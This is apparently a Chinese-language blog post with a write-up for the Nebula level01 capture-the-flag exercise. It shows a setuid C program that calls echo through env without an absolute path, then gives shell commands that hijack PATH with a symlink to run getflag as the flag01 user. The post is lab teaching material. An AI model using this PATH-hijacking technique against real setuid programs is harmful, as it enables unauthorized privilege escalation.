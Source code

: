 ```yaml
---
title: "Exploit Exercises - Nebula Level01"
date: 2014-01-09T14:54:40+08:00
tags:
- Security
- Exercises
- Nebula
---
```


有了level00的铺垫，level01就非常简单直接了。感觉上Nebula系列的基本要求是用levelXX用户登录，通过放在/home/flagXX目录下的可执行程序来获得flagXX的用户权限，对于level01而言，可执行程序为/home/flag01/flag01，其源代码在网站上给出了：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

<!-- more --> 

前边代码的作用在上一篇博客中提到了，为了使当前的effective uid为flag01，所以system这一句是以flag01这个user的权限执行的。通过/usr/bin/env程序执行了echo程序，在屏幕上打印“and now what？”，不过在执行echo这个命令的时候没有使用绝对路径，使得通过修改$PATH来执行任意程序成为了可能。在本例中，通过修改$PATH和重定向来直接以flag01用户执行/bin/getflag程序：

``` bash
~ $ export PATH=/home/level01:$PATH
~ $ ln -s /bin/getflag /home/level01/echo
~ $ /home/flag01/flag01
You have successfully executed getflag on a target account
```

这样就可以了。通过重定向其他程序为/home/level01/echo，可以用flag01用户执行任意程序。